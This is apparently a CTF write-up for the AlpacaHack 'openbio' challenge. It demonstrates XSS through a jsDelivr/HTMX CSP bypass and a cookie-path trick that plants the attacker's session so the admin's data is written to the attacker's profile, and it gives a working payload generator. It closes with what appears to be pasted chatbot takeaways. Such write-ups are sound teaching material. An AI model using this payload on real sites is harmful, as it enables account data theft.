










*[link to the challenge if you wanna give it a try](https://alpacahack.com/challenges/openbio)*
## Unnecessary rambling (skip if not interested)


I always thought cookie attributes like path and domain were meant for servers to handle; little did I think about how the browser handles cookie state aside from its same-origin policy and HTTPOnly attribute (as well as Lax defaults two days ago). It turns out, there is more to the story than meets the eye.
## Challenge description



The challenge is simple: You have a profile where you can update your bio. The bio can be HTML, and a Content Security Policy (CSP) is applied to prevent malicious JavaScript from executing.
Session cookies are stored as HTTPOnly, so we don't have JavaScript access:
```py
"""
Enforce CSP
"""
@app.after_request
def after_request(response):
    csp  = ""
    csp +=  "default-src 'none';"
    if 'csp_nonce' in flask.g:
        csp += f"script-src 'nonce-{flask.g.csp_nonce}' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';"
    else:
        csp += f"script-src https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';"
    csp += f"style-src https://cdn.jsdelivr.net/;"
    csp += f"frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;"
    csp += f"base-uri 'none';"
    csp += f"connect-src 'self';"
    response.headers['Content-Security-Policy'] = csp
    return response

```


On top of this, the application implements CSRF protection using a CSRF token stored in an input tag inside the page's DOM:


The flag, which is our goal, is the bio of the admin bot, whom we can force to visit any page we like. It should be clear that our goal is to exfiltrate the flag.
## Further recon


The code base for this one was a bit larger than the previous challenges. If you read any of my write-ups, you know how much I like the source/sink concepts. In this challenge, templating was used to generate the HTML sent to the browser:
#### *profile.html*


```html
<body>
    <div class="uk-section uk-section-muted uk-flex uk-animation-fade" uk-height-viewport>
        <div class="uk-container">
            <h1>
                {{ username }}'s Profile
                <a id="copy" class="uk-icon-button" uk-icon="link" uk-tooltip="Copy link"></a>
                <a id="report" class="uk-icon-button" uk-icon="warning" uk-tooltip="Report spam"></a>
            </h1>
            <p class="uk-text-large">{{ bio|safe }}</p>
        </div>
    </div>
    <input type="hidden" id="csrf_token" value="{{ csrf_token() }}">
</body>

```


Jinja2 (the default templating engine for Flask) defines the `|safe` directive to skip escaping user input and treat it as raw HTML instead. Looking for the source to this sink, we notice the following bio update functionality:
```py
@app.route('/api/user/update', methods=['POST'])
def user_update():
    """Update user info"""
    if not login_ok():
        return error("You are not logged in.")

    username = flask.session['user']
    bio = flask.request.form.get('bio', '')
    if len(bio) > 2000:
        return error("Bio is too long.")

    # Update bio
    conn = conn_user()
    conn.hset(username, 'bio', bio)

    return success("Successfully updated your profile.")

```


To update the bio, we have to:
1. Be logged in as a user, and
2. Keep our bio to 2000 characters or less.


The character limit wasn't a concern. Let's focus on popping an alert box first.
## CSP Bypass


Let's take a closer look at the CSP:

1. As a best practice so far, we specify that no resource may be loaded.
2. This caught my attention quite a bit. jsDelivr is a free CDN for open-source projects, meaning anyone can host a GitHub repo with their JavaScript code in it, point the script tag at it, and it will execute. A [website](https://cspbypass.com/) exists that makes this even easier; just type **jsdelivr**, and it displays ready-to-use payloads satisfying our CSP:



3. Having achieved XSS, we see the third directive restricts what servers we can connect to. A simple webhook.site out-of-band exploit won't work; instead, resources have to be same-origin to load.


Instead of exfiltrating through an attacker server, we have to update our bio to be the admin's bio.
## Issues and difficulties



Now that we have XSS on the challenge origin, the idea should be to:
1. Make a fetch on the same origin + DOM manipulation to get the user bio.
2. Make ANOTHER fetch WITH our credentials (csrf_token + session) to update our profile bio.


Getting the `csrf_token` is easy: we just extract the `csrf_token` that is tied to our session and feed it to our script. But what about the session? When the admin bot logs in, it possesses its own cookie. How can we send OUR session instead of theirs?
### Cookie order


It turns out we can't. If we do a `document.cookie = "session=foo"`, both sessions will be sent... with a nuance.
That nuance is found in [rfc6265](https://www.rfc-editor.org/info/rfc6265/#section-5.4), where it talks about the case of duplicate cookie entries:

What is a path? [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies) says:

Meaning, if we send a request to `/api/user/update` and two cookies are present:
1. one with path=/
2. and the other with path=/api/user/update


Path specificity takes over, and the longer path is sent first.

The remaining question: Does Flask handle the first or second cookie?
### Flask session


I could have audited the source code and see how Werkzeug (the underlying tech) handles cookies, but a simple script will suffice:
```py
import time
import threading
import requests
from flask import Flask, session, request

# ==========================================
# 1. Flask Application Setup
# ==========================================
app = Flask(__name__)
app.secret_key = "super_secret_poc_key"

@app.route('/set/<username>')
def set_session(username):
    """Generates a valid signed session cookie for the given user."""
    session['user'] = username
    return "OK"

@app.route('/check')
def check_session():
    """Returns the parsed session state and logs the raw header."""
    raw_header = request.headers.get('Cookie', '')
    parsed_user = session.get('user', 'Unauthenticated')

    print(f"\n[SERVER] Received Header : {raw_header}")
    print(f"[SERVER] Parsed Session  : {parsed_user}")

    return parsed_user

def run_server():
    # Suppress standard Werkzeug request logging for cleaner PoC output
    import logging
    logging.getLogger('werkzeug').setLevel(logging.ERROR)
    app.run(port=5000, use_reloader=False)

# ==========================================
# 2. Exploit / Client Execution
# ==========================================
if __name__ == '__main__':
    # Boot the Flask app in a daemon thread
    server_thread = threading.Thread(target=run_server, daemon=True)
    server_thread.start()
    time.sleep(1)  # Allow port 5000 to bind

    print("[CLIENT] Generating valid session cookie for 'Alice'...")
    resp_alice = requests.get('http://127.0.0.1:5000/set/Alice')
    cookie_alice = resp_alice.cookies.get('session')

    print("[CLIENT] Generating valid session cookie for 'Bob'...")
    resp_bob = requests.get('http://127.0.0.1:5000/set/Bob')
    cookie_bob = resp_bob.cookies.get('session')

    # Test 1: Alice first, Bob second
    print("\n" + "="*50)
    print("TEST 1: Injecting Alice -> Bob")
    print("="*50)
    headers_test_1 = {
        'Cookie': f'session={cookie_alice}; session={cookie_bob}'
    }
    requests.get('http://127.0.0.1:5000/check', headers=headers_test_1)

    # Test 2: Bob first, Alice second
    print("\n" + "="*50)
    print("TEST 2: Injecting Bob -> Alice")
    print("="*50)
    headers_test_2 = {
        'Cookie': f'session={cookie_bob}; session={cookie_alice}'
    }
    requests.get('http://127.0.0.1:5000/check', headers=headers_test_2)

```



Great!
> Interesting note I read in the RFC
> NOTE: Not all user agents sort the cookie-list in this order, but this order reflects common practice when this document was written, and, historically, there have been servers that (erroneously) depended on this order.
> Does that mean Flask is doing something wrong? GPT says that Java creates a collection instead, so maybe that's the right way to do it :)
> PHP takes the last, though *(I think... based on previous CTF experience lol)*


## Solution


Knowing everything we know so far, we follow these steps (again) to get the flag:
1. Make a fetch on the same origin + DOM manipulation to get the user bio.
2. Make ANOTHER fetch WITH our credentials (csrf_token + session) to update our profile bio.


I created a simple `gen.js` that generates the payload:
```js
const csrf_token = '<attacker_csrf_token>'
const session = '<attacker_session_token>'
const hijack = `const csrf_token='${csrf_token}';document.cookie="session=${session}; path=/api/user/update"`

const stealer = `fetch('/api/user/update', { method: 'POST', body: new URLSearchParams({ bio, csrf_token }) });`

const bio = `fetch('/').then(r=>r.text()).then(h=>{bio=new DOMParser().parseFromString(h,'text/html').all.bio.value; ${hijack}; ${stealer}; });`;

// const payload = `${bio}; ${hijack}; ${stealer}`
const final = `<script src="https://cdn.jsdelivr.net/npm/htmx.org"></script><any hx-trigger="x[1)}),eval(atob('${btoa(bio)}'))//]">`
console.log(final)

```

> Remember, we didn't have to host our own code on github, I picked HTMX which
> can trigger JS execution in the hx-trigger attribute.

After updating our bio and reporting our *spam* account to the admin:

We get the flag: `CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}` :)

Here are the key takeaways and references based on your writeup for the **openbio** challenge:

## Key Takeaways

1. **The Danger of Broad CDN Whitelisting in CSP**
* Whitelisting entire multi-tenant CDNs like `https://cdn.jsdelivr.net/` in a Content Security Policy (`script-src`) effectively defeats the purpose of the CSP. Attackers can either point to scripts hosted in their own GitHub repositories or utilize built-in library gadgets (like HTMX) to bypass restrictions and execute arbitrary JavaScript.


2. **HTTPOnly is Not a Silver Bullet for Session Protection**
* While the `HTTPOnly` attribute successfully prevents an attacker from *reading* a session cookie via `document.cookie`, it does not prevent JavaScript from *writing* a new cookie with the exact same name.


3. **Cookie Path Specificity Overriding (RFC 6265)**
* Browsers handle duplicate cookie names by sorting them based on the specificity of their `path` attribute. Cookies with longer, more specific paths (e.g., `path=/api/user/update`) are sent in the HTTP request header **before** cookies with shorter paths (e.g., `path=/`).


4. **Framework-Specific "First Match" Parsing Vulnerability**
* Different backends parse duplicate headers differently. In Flask/Werkzeug, when multiple cookies with the same name are received, the framework processes the **first** one it encounters. By abusing browser path sorting, an attacker can force their session cookie to be positioned first, completely overshadowing the admin's legitimate root-level session cookie.


5. **Same-Origin Exfiltration Strategy**
* When out-of-band exfiltration is tightly restricted by `connect-src 'self'`, attackers can instead turn the application's own state-changing mechanisms into an exfiltration channel. Reading data on a legitimate page and writing it back to an attacker-controlled profile page circumvents external network blocks entirely.


## References

* **Challenge Link:** [AlpacaHack - openbio](https://alpacahack.com/challenges/openbio)
* **Cookie RFC Standards:** [RFC 6265 Section 5.4 - Cookie Ordering and Duplicate Entries](https://www.rfc-editor.org/info/rfc6265/#section-5.4)
* **MDN Documentation:** [MDN Web Docs - Using HTTP Cookies (Scope of Cookies)](https://www.google.com/search?q=https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies%23scope_of_cookies)
* **CSP Bypass Database:** [CSPBypass.com (jsDelivr Payloads)](https://cspbypass.com/)
* **Exploited Tooling:** [HTMX Documentation - Attribute Reference (`hx-trigger`)](https://htmx.org/attributes/hx-trigger/)
